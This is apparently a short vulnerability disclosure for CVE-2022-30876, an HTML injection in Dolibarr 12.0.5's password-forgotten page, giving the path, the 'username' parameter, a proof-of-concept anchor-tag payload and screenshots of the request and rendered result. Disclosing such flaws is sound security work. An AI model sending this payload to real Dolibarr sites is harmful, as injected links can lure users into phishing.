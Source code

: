 ## Dolibarr 12.0.5 HTML INJECTION CVE-2022-30876
### Path : http://localhost/user/passwordforgotten.php
### Payload : < a href="http://www.unsafe-inline.com/">Click Me</ a>
### Parameter : username


## Http Burp Request and Response

![](https://github.com/mustgundogdu/Research/blob/main/Dolibarr_12.0.5-HtmlInjection/dolibarrhtmlInj1.PNG)


## On Browser

![](https://github.com/mustgundogdu/Research/blob/main/Dolibarr_12.0.5-HtmlInjection/dolibarhtmlInj2.PNG)
